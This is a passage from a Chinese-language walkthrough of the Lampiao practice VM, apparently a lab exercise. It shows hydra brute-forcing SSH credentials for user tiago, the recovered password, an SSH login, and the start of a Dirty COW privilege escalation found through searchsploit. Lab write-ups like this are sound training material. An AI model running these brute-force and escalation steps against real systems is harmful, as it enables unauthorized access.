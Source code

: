 ![image-20220228111522755](https://gitee.com/xxb667/img/raw/master/img/image-20220228111522755.png)

hydra对用户密码进行爆破

利用hydra对用户tiago密码进行爆破：

```
hydra -l tiago -P lampiao.txt 192.168.81.139 ssh
```

得到账户密码：

```
login: tiago   
password: Virgulino
```

![image-20220228112147921](https://gitee.com/xxb667/img/raw/master/img/image-20220228112147921.png)

## 2.2 ssh进行登录

利用ssh进行登录：

```
ssh tiago@192.168.81.139
```

根据提示输入

```
yes
Virgulino （这个就是密码）
```

![image-20220228131442763](https://gitee.com/xxb667/img/raw/master/img/image-20220228131442763.png)

### 查看靶机信息：

```
uname -a
```

![image-20220228131612586](https://gitee.com/xxb667/img/raw/master/img/image-20220228131612586.png)

# 3. 提权

## 3.1 利用脏牛提权

用Kali 自带的漏洞搜索有无能进行脏牛提权的shell：

```
searchsploit dirty
```

![image-20220228132438851](https://gitee.com/xxb667/img/raw/master/img/image-20220228132438851.png)
